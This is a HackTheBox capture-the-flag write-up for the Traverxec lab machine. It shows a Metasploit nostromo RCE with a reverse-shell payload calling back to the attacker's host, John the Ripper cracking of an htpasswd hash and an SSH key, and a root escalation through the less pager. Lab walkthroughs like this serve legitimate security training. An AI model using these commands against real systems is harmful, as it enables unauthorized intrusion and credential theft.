 ```yaml
---
layout: article
title: HackTheBox - Traverxec
tags: HackTheBox write-up
date: 2019-01-01 08:00:00 +0100
---
```


![banner](/assets/images/traverxec.png)

<!--more-->

<h2>Traverxec</h2>
<h3>The Basics</h3>
The first thing we should do is map the box IP address to the box name  .htb in the `/etc/hosts` file.
`10.10.10.165   traverxec.htb`

<h3>Initial Scan</h3>
Next up we run our standard NMAP scan `nmap -sC -sV traverxec.htb`. We get results back for 2 ports: 22 SSH open, 80 HTTP open running nostromo 1.9.6.

![Initial NMAP scan](/assets/images/traverxec-initial-scan.png)

<h3>Exploiting nostromo Directory Traversal RCE</h3>
A quick *searchsploit* for **nostromo** yields 2 results, one directory traversal RCE shell script for nostromo 1.9.3 and a metasploit RCE. Upon closer inspection of the metasploit RCE with `searchsploit -x exploits/multiple/remote/47573.rb` we can see it's meant for nostromo 1.9.6. Great, let's give it a try.

![nostromo RCE](/assets/images/traverxec-nostromo-rce.png)

```
msfconsole
use exploit/multi/http/nostromo_code_exec
set RHOSTS 10.10.10.165
set RPORT 80
set LHOST 10.10.14.<your-ip-here>
set payload cmd/unix/reverse_python
exploit
```

We have our initial shell as **www-data**, we can upgrade it with `python -c "import pty;pty.spawn('/bin/bash');"; export TERM=xterm`.

![initial shell www-data](/assets/images/traverxec-initial-shell.png)

<h3>Cracking htpassd and SSH private key to gain user</h3>
If we do some manual enumeration and look around in `/var/nostromo/conf` we can find two files of interest, a `.htpasswd` and `nhttpd.conf`. The `.htpasswd` file contains a hashed password for the user **David**.
If we throw the hash into **hash-identifier or a service like [Tunnelsup hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/) we can see it's a MD5 hash, more specifically MD5-Crypt.
Now that we know the hash type, we can try to crack it with JohnTheRipper. We use the `--format=crypt` switch to specify it's a MD5-Crypt hash. It will take John a little over 7 minutes to successfully crack the hash with rockyou.txt.

![john](/assets/images/traverxec-david-hash.png)

Next we'll take a look at the other interesting file `nhttpd.conf`. At the bottom of the config file we can see the **HOMEDIRS** section which defines how we can serve the home directories of users via HTTP according to the [nostromo documentation](http://www.nazgul.ch/dev/nostromo_man.html).
In essence this means we can access a users home directory like `/home/david` via our browser over HTTP by adding a `~` in the URL followed by the directory name. The `homedirs_public` options restricts access within a home directory to a single sub-directory as defined in the config file.

![nostromo config](/assets/images/traverxec-nostromo-home-dir.png)

We can try this out and browse to `http://traverxec.htb/~david/`. Unfortunately we are greeted by a "Private space. Nothing here. Keep out!". Something else we can try is use our shell to navigate directory to these directories.
`cd /home/david/public_www`.

Looking around we can see a sub-directory `/protected-file-area` which contains a backup backup of SSH related files.
If we were to navigate to `http://traverxec.htb/~david/protected-file-area/` and use the password we cracked from the `.htpasswd` file with the username **David**, we would see the same backup archive.

![protected file area](/assets/images/traverxec-david-protected-file-area.png)

Let's download the archive and extract the contents and move it to our current directory.

```
tar -xzf backup-ssh-identity-files-tgz
mv home/david/.ssh/* .
rm -rf home
```

The archive contained 3 files, `id_rsa`, `id_rsa.pub`, and `authorized_keys`. Let's get JohnTheRipper to crack the private key.

```
ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

John successfully cracks the private key, let's try SSH into the user **David**.
`ssh -i id_rsa david@traverxec.htb`

![cracked ssh private key](/assets/images/traverxec-cracked-ssh.png)

We successfully connect and can grab the user flag.

![user flag](/assets/images/traverxec-user-flag.png)

<h3>Exploiting less to gain a root shell</h3>
The first thing that grabs our attention is the `/bin` directory in `/home/david`. It contains 2 files, `server-stats.head` and `server-stats.sh`.
The `server-stats.sh` script seems to contain some form of logging functionality, the very last line is interesting because it contains a `sudo` command which is executed as **David**.

![server-stats](/assets/images/traverxec-server-stats.png)

Let's run this command manually and without the pipe into `cat`. It successfully executed but nothing interesting happens.
If we resize our terminal, so the text doesn't fit on the screen anymore, in this case the output will automatically be piped into `less`. A quick search for `less` on [GTFOBins](https://gtfobins.github.io/gtfobins/less/) will tell us we can use `!/bin/sh` to spawn a shell.
We successfully spawn a root shell.

![root shell](/assets/images/traverxec-root-shell.png)

Now let's grab the root flag.

![root flag](/assets/images/traverxec-root-flag.png)